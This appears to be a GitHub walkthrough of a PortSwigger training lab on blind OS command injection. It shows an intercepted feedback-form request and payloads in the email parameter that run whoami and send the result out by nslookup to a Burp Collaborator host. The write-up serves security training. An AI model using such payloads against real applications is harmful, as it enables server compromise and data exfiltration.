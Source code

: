 ## Welcome, my friend. Today we will start the [5. OS Injection lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration) in ```portswigger```


# Let's play this lab:

![image](https://github.com/user-attachments/assets/7ea90290-ebca-40a3-9e7f-5a129afc4524)


#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/37de16f6-4f7a-408d-b79a-fbca20193f48)

### Well, we found ```submit feedback``` page , Start Burp suite and intercept the request:

![image](https://github.com/user-attachments/assets/c0ec41a4-2aaf-4670-b8f8-678c052a1552)

```
csrf=JWevSJJZ0XWZF8ylTzNJyyyw9ZPdew9Y&name=hi&email=hi%40gmail.com&subject=nahs&message=ok
```

 <br>
 
#### This ```email``` parameter is vulerable.

### inject os command inside this parameter:

```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
email=||nslookup+`whoami`.o1qvjkz0xdtt8xgoa6uwzvg5iwonci07.oastify.com||
```

![image](https://github.com/user-attachments/assets/923a5406-8cc9-4fa8-8a8b-469ae0ba76a4)


![image](https://github.com/user-attachments/assets/602ceac2-9dae-4108-a037-dafa732cb77e)

![image](https://github.com/user-attachments/assets/f407c250-85a3-447f-b520-152fc84ebee5)

![image](https://github.com/user-attachments/assets/d941aa59-dd21-4f70-8b09-baf138486473)

### Done! Congratulations, friends❤️‍🔥


-------

#### Good bye, my friend.I hope you enjoyed these interesting Labs with us, and I ask you, my friend, to solve these Labs yourself. Good luck to you, my dear friend.



<p align="center">
<img src="https://github.com/user-attachments/assets/49ddb0ee-3949-486e-ab16-e23eb9e8a7db" >
</p>
